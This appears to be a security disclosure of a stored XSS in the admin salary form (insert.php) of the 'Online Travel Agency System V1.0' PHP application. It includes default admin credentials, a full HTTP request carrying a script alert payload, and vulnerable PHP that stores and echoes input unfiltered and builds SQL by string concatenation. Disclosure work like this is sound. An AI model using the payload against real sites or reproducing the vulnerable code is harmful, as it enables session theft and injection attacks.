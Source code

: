 # [Online Travel Agency System-File upload vulnerabilities-insert.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:** Online Travel Agency System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** `http://10.151.222.198/Travel/admin/insert.php`

**[Vulnerability Location]:** /Travel/admin/insert.php

**[Vulnerability Test]:**

1. View http://10.151.222.198/Travel/admin/salary1.php, Insert the XSS payload in **"Description"**.

   ![](../../img/20230428180338.png)

2. After clicking the submit button, the update is successful and the XSS payload is successfully stored in the database.

   ```bash
   POST /Travel/admin/insert.php HTTP/1.1
   Host: 10.151.222.198
   Content-Length: 106
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.151.222.198
   Content-Type: application/x-www-form-urlencoded
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.151.222.198/Travel/admin/salary1.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=86dm5d6ncj5mk3db07gti39pb4
   Connection: close
   
   employee=Haqdost&month=jan&amount=55&description=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&salaryform=submit
   ```

3. Visit `http://10.151.222.198/Travel/admin/salary_view_all.php`, and a pop-up window appears.

   ![](../../img/20230428180424.png)

   ![](../../img/20230428180502.png)

**[code analysis]:**

/Travel/admin/insert.php

```php
<?php //insertion in salary form

if(isset($_POST["salaryform"]))
{
	
	$employee=$_POST["employee"];
  $month=$_POST["month"];
  $amount=$_POST["amount"];
  $description=$_POST["description"];
 $sql="insert into salary(employee,month,amount,description,inserted_by)values('$employee','$month','$amount','$description','$user')";
 $result=mysqli_query($con,$sql) or die(mysqli_error($con));
 
 $salary_id=getMaxID('salary_id','salary');

 insertCash($amount,"Cr",$description);
 
 $maxCashID=getMaxID('cashID','cash');
 mysqli_query($con,"INSERT INTO transaction(cashID,salaryID) VALUES ('$maxCashID', '$salary_id')" ) or die("Error in salary Query :: ".mysqli_error($con));
 
 if($result)
	{ echo"data is inserted successfully";
	header('location:salary_view_all.php');
	}
	else
	{ echo "error occured";
	}
 
}
?>
```

When the **description** parameter value in the POST is obtained, it is stored in the database without any filtering, resulting in stored XSS.

/Travel/admin/salary_view_all.php

```php+HTML
 <?php 
  $sql="select*from salary";
  $result=mysqli_query($con,$sql) or die(mysqli_error($con));
  if(mysqli_num_rows($result)<1)
  {
	  echo"<script type='text/javascript'>alert('No Salary found');
	  document.location='employee_view.php'</script>";
	 
  }
  while($row=mysqli_fetch_array($result))
  {
	  $salary_id=$row["salary_id"];	 	 	 	 	 	 		 
	  $month=$row["month"];
 	  $amount=$row["amount"];
 	  $description=$row["description"];
	   $employee=$row["employee"];
	    $date=$row["date"];
	    $inserted_by=$row["inserted_by"];
	 
	 
  ?>

<td><?php       echo $description; ?></td>
```

And the output is made in the page.